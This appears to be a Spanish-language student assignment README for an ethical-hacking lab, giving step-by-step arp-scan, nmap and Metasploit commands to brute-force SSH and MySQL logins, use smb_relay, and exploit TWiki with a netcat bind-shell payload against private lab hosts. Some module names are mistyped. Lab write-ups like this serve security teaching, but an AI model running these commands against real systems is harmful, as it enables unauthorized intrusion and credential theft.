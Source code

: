 # Tarea: Hacking Ético

## Máquina Windows con vulnerabilidades
- Obtener información del sistema vulnerable
  	*Para saber la ip del dispositivo al que queremos atacar usaremos:*

  	  arp-scan -l

   	<br>
    
* Explorar e identificar vulnerabilidades del sistema

	*Para saber lo puertos que están abiertos utilizaremos*

  	  nmap *ip del servidor*

  	<br>
   	*Si queremos un puerto en especifipo nos sirve el -p*
  
+ Explotar las vulnerabilidades
  
  - Puerto 22 -> SSH

    *Con este comando hacemos uso del módulo ssh_login para iniciar sesión con posibles usuarios*
    
        use auxiliar/scanner/ssh/ssh_login

  	<br>
    *Mostramos las opciones*
    
        show options

  	<br>
    *Es obligatorio poner el target, en mi caso la IP es: 192.168.0.117*
    
        set RHOSTS 192.168.0.117

  	<br>
    *Creamos unalista de posibles usuarios y otra con posibles contraseñas*
    
        set USER_FILE usuarios.txt
        set PASS_FILE usuarios.txt

  	<br>
    *Con run se intentará iniciar sesión en el servidor SSH utilizando la lista de nombres de usuario y contraseñas*
    
        run

    <br>
    
  - Puerto 139 -> netbios-ssn

       *Para explotar este puerto necesitaremos explotar estos puertos*

   	    use exploit windows/smb/smb_relay 
 
       *Luego debemos poner el rhosts*

     	    set RHOSTS 192.168.0.117
   
       *Luego lo ejecutamos y ya tenemos acceso*

     	    run

      *Para comprobar que funciona hacemos un ls y debería salir el directorio "he de decir que no se por qué funcionó pero entré" *
      
## Máquina Linux con vulnerabilidades
- Obtener información del sistema vulnerable

    *Para saber la ip del Linux al que queremos ver vulnerabilidades usaremos:*

      nmap -sn *dir_red/mascara*

    <br>

* Explorar e identificar vulnerabilidades del sistema

    *Puedes saber los puertos que un linux tiene abiertos con:*

      nmap -sT *ip del cliente*

    <br>


+ Explotar las vulnerabilidades
  - Puerto 80 -> HTTP
 
     *Este comando carga el módulo de explotación llamado "twiki_history" que está diseñado para atacar vulnerabilidades en la aplicación web TWiki*
	
	    use exploit/unix/webapp/twiki_history

    *Muestra las opciones disponibles para configurar el módulo de explotación "twiki_history".*
    
    	show options
    
    *Establece la dirección IP del host al que se pretende atacar, en este caso 100.100.100.2.*
    
    	set rhost 100.100.100.2
    
    *Establece el payload que se utilizará en la explotación. En este caso, se utiliza "cmd/unix/bind_netcat", que esta diseñado para abrir una conexión usando Netcat en la máquina.*
    
    	set payload cmd/unix/bind_netcat
    
    *Ejecuta la explotación en segundo plano.*
    
    	exploit -j
    
    *Muestra una lista de las sesiones activas que se han establecido después de la explotación. Esto permite identificar si se ha obtenido acceso a la máquina.*
    
    	sessions -l
    
    *Cambia a un módulo de post-explotación llamado "shell_to_m". Se utiliza para interactuar con la máquina objetivo una vez hayamos accedido.*
    
    	use post/multi/manage/shell_to_m
    
    *Establece conexíon con la primera sesion iniciada para ejecutar el módulo "shell_to_m".*
    
    	set session 1
    
    *Ejecuta el módulo "shell_to_m" en la sesión número 1.*
    
    	exploit
    
    *Interactúa con la segunda sesión (sesión número 2), obteniendo acceso a la máquina vulnerable.*
    
    	sessions -i 2
    
    *Sale la IP de la máquina vulnerable una vez conectado.*
    
    	ifconfig
    	
    *Confirmación del acceso a la máquina vulnerable.*
    
    	cat /etc/hostname


    <br>
  
  - Puerto 3306 -> MySQL
 
    *Este comando indica el uso del módulo mysql_login para hacer una prueba de inicio de sesión MySQL, utilizando una lista de nombres de usuario y contraseñas.*
    
        use scanner/mysql/mysql_login
    
    *Muestra las opciones que se pueden configurar del módulo*
    
        show options
    
    *Establece la dirección IP de la máquina vulnerbale, en mi caso la IP es: 100.100.100.2.*
    
        set rhosts 100.100.100.2
    
    *Define el archivo unix_users.txt como la lista de posibles nombres de usuario y contraseñas para probar durante la prueba de inicio de sesión.*
    
        set userpass_file /usr/share/metasploit-framework/data/wordlists/unix_users.txt
    
    *Con run se intentará iniciar sesión en el servidor MySQL utilizando la lista de nombres de usuario y contraseñas del archivo unix_users.txt*
    
        run
 
    *En la lista de usuarios que saldrá que se han probado usamos el que ha podido iniciar la sesión con éxito, en mi caso root*
    
    *Luego en una terminal aparte ejecutamos el siguiente comando y pedira contraseña aunque está vacía*
    
        mysql -u root -h 100.100.100.2 -p
